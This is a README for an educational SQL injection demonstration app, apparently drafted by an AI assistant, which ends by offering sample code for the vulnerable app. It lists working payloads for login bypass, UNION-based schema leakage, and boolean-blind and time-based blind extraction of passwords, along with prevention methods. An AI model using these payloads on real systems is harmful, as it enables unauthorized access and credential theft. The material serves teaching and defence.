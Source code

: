 # SQL Injection Demonstration Project

![SQL Injection](https://img.shields.io/badge/Demo-SQL%20Injection-red) ![Educational](https://img.shields.io/badge/Purpose-Educational-blue)

This repository demonstrates SQL injection vulnerabilities in web applications.  
Originally forked from [sakshamchoudhary/sql](https://github.com/sakshamchoudhary/sql), it serves as an **educational resource** for understanding and preventing SQL injection attacks.

---

## 🚀 Quick Start

### 1. Clone the repository
```bash
git clone https://github.com/your-username/sql-injection-demo.git
cd sql-injection-demo
2. Install dependencies

npm install
3. Set up MySQL database

mysql -u root -p < database/schema.sql
4. Configure database credentials
Edit the file:

config/database.js
5. Run the vulnerable application

node app.js
🔗 Access the app at:
http://localhost:3000

💉 SQL Injection Examples
🔓 Basic Login Bypass

Username: admin' --
Password: [anything]
🕵️ Database Information Leakage

' UNION SELECT 1,table_name,column_name FROM information_schema.columns --
🤫 Blind Boolean-Based Injection

admin' AND SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a' --
⏳ Time-Based Injection

admin' AND IF(SUBSTRING(password,1,1)='a',SLEEP(5),0) --
🛡️ Prevention Methods
✅ Parameterized Queries

db.query('SELECT * FROM users WHERE id = ?', [userId]);

✅ ORM Usage

User.findOne({ where: { username: inputUsername } });

✅ Input Validation

if (!/^[\w-]{3,20}$/.test(input)) {
    throw new Error('Invalid input');
}

✅ Principle of Least Privilege
Use database accounts with minimal required permissions.

✅ Web Application Firewall (WAF)
Deploy a WAF to monitor and block malicious inputs.

⚠️ Responsible Disclosure
Warning:
This project is intended strictly for educational purposes only.
Never test these techniques on systems you do not own or have explicit permission to test.
Unauthorized access or testing is illegal and unethical.

📝 License
This project is licensed under the MIT License.
See the LICENSE file for more details.


---

✅ **Now copy the full block above and paste it into your `README.md` file**.  
Let me know if you'd also like a `schema.sql` or `app.js` sample for the vulnerable app.

